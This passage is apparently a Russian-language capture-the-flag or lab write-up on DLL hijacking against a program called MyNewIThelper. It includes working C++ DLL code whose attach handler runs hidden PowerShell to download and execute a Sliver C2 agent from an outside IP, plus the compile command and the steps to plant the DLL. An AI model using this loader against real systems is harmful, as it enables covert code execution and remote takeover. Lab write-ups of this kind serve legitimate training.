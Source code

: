 Подключаемся к машине и находим программу MyNewIThelper
Закидываем ее на основную машину и с помощью Procmon отслеживаем какие dll ищет программа. Она ищет Pentest.dll который отсутствуют на машине жертвы
Создаем код на с++ который установит агент sliver и запустит его 
``` c++
#include <windows.h> 

BOOL WINAPI DllMain(HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
	switch (dwReason) {
	case DLL_PROCESS_ATTACH:
		system("powershell -nologo -noninteractive -windowStyle hidden -command iwr http://100.100.2.252/MASSIVE_STRENGTH.exe -O C:\\Windows\\Tasks\\MASSIVE_STRENGTH.exe ; C:\\Windows\\Tasks\\MASSIVE_STRENGTH.exe");
		break;
	case DLL_PROCESS_DETACH:
		break;
	case DLL_THREAD_ATTACH:
		break;
	case DLL_THREAD_DETACH:
		break;
	}
	return TRUE;
}
```
Компилируем dll```x86_64-w64-mingw32-gcc -shared -o Pentest.dll  pentest.c``` и передаем ее на машину жертвы
Запуска слушателя для агента и веб сервер чтобы установить агента
Запускаем MyNewITHelper и получаем соединения от системы => забираем флаг